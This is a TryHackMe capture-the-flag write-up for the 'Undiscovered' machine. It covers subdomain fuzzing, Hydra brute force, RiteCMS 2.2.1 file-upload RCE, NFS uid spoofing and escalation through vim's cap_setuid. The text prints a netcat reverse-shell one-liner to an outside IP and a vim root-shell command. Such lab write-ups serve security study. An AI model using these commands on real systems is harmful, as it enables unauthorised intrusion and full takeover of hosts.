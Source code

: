 ```yaml
---
title: Undiscovered TryHackMe Writeup
tags: [writeup,norootsquash,tryhackme,ritecms,rce,linux]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/1.jpeg)

## Scanning
We run **nmap** on all ports, with scripts and versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/2.png)

## Enumeration
We access the web service, find a website with what looks like a *"hint"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/3.png)

We launch the **wfuzz** tool to list possible subdomains enabled on *vhost*.

We see that there is *only one with different number of lines*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/4.png)

We access the new web resource and find **RiteCMS** version *2.2.1* deployed.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/5.png)

We check again **wfuzz**, we see that it has identified another subdomain.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/6.png)

We list another subdomain with the same CMS, unlike the previous one, in this one we have visibility to the authentication form.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/7.png)

We brute force the authentication form with **Hydra**, we get the password in plain text.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/8.png)

## Exploitation

We searched for exploits for this version of the CMS, we found several and some scripts that automates, but I preferred to do it "by hand".

[RiteCMS 2.2.1 - Authenticated Remote Code Execution
](https://www.exploit-db.com/exploits/48636)

We create a malicious file called *"m3.php"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/9.png)

Enter the credentials obtained and upload the file *m3.php*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/10.png)

We access the file and check that we can execute remote code.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/11.png)

#### Reverse shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```
We encode the payload and execute it from burp.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/12.png)

#### Remote access to the machine:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/13.png)

Once inside, we launch the dirsearch tool and we see that we could mount and write in the folder of the user "*william*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/14.png)

We tried to mount it, but we do not have permission to view its contents.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/16.png)

But it is easy to take advantage of this vulnerability, just create a local user with the same *uid (3003)* and now you can access your folder and read the *user.txt flag*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/17.png)

We checked the folder and found two interesting files "*admin.sh*" and "*script*". I try to delete the file and it is possible to replace it, thinking that maybe they can be combined or that there is some crontab running as another user, I try to add a line to get a reverse shell (but without success :().

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/18.png)

We check with **strings** the content of the "*script*" binary and we see that it executes a "**cat**" inside the user's home folder.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/19.png)

Taking advantage of the fact that we have write permissions in the nfs, we insert our public key in the "*authorized_keys*" file of the user "*william*" and we access by **SSH**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/20.png)

We make some tests with the file and we see that we can indeed impersonate the user "*leonard*" to be able to read any file in his folder, so we try to read his private key and we see that we have been lucky.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/21.png)

We access by **SSH** and we see that we have access as "*leonard*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/22.png)

## Privilege Escalation
We read the file "*.viminfo*", we see a series of commands that already sounds us of the use of privilege escalation by means of **vim**, this already makes us suspect which is the way to the privilege escalation.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/23.png)

As we can't run sudo because we don't know the user's password, we see if we can access the **vim** binary through its capabilities, we see that we have "*cap_setuid+ep*", so we can abuse it and become root.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/24.png)

#### Command execute
```bash
/usr/bin/vim.basic  -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
We run the command, become root and read the flag from root.txt

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undiscovered/25.png)